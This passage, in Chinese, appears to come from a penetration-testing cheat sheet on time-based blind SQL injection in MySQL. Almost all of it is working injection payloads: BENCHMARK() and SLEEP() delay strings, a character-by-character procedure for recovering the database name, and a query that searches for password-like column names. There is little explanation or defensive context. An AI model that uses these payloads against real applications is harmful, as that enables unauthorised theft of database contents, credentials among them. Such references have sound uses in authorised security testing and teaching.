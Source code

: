 以下 SQL 代码将延迟来自 MySQL 的输出。

* MySQL 4/5 : [`BENCHMARK()`](https://dev.mysql.com/doc/refman/8.4/en/select-benchmarking.html)

    ```sql
    +BENCHMARK(40000000,SHA1(1337))+
    '+BENCHMARK(3200,SHA1(1))+'
    AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))
    ```

* MySQL 5: [`SLEEP()`](https://dev.mysql.com/doc/refman/8.4/en/miscellaneous-functions.html#function_sleep)

    ```sql
    RLIKE SLEEP([SLEEPTIME])
    OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
    XOR(IF(NOW()=SYSDATE(),SLEEP(5),0))XOR
    AND SLEEP(10)=0
    AND (SELECT 1337 FROM (SELECT(SLEEP(10-(IF((1=1),0,10))))) RANDSTR)
    ```

### 使用 SLEEP 在子查询中

提取数据的长度。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '%')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '___')# 
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '_____')#
```

提取第一个字符。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'A____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'S____')#
```

提取第二个字符。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SA___')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SW___')#
```

提取第三个字符。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWA__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWB__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWI__')#
```

提取 column_name。

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE (SELECT table_name FROM information_schema.columns WHERE table_schema=DATABASE() AND column_name LIKE '%pass%' LIMIT 0,1) LIKE '%')#
```
